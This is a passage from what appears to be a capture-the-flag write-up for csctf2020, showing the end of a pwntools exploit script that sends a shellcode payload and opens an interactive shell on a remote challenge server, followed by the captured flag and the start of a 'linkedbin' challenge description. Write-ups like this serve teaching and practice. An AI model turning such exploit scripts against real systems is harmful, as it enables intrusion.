             syscall
    ''')
    r.sendline(a)
    r.interactive()
    return

if __name__ == "__main__":
    if len(sys.argv)==2 and sys.argv[1]=="remote":
        REMOTE = True
        r = remote("139.59.97.212", 23339)
    else:
        LOCAL = True
        r = process([TARGET,])
    exploit(r)
    sys.exit(0)

{% endhighlight %}

<img src="/images/csctf2020/flag1.png"/>

FLAG: CSCCTF{on3_b4bySteP_At_a_t1mE}


<h1 id="linkedbin">linkedbin</h1>

### Description

≧ω≦
Author: tempestuous
nc 128.199.211.118 23338
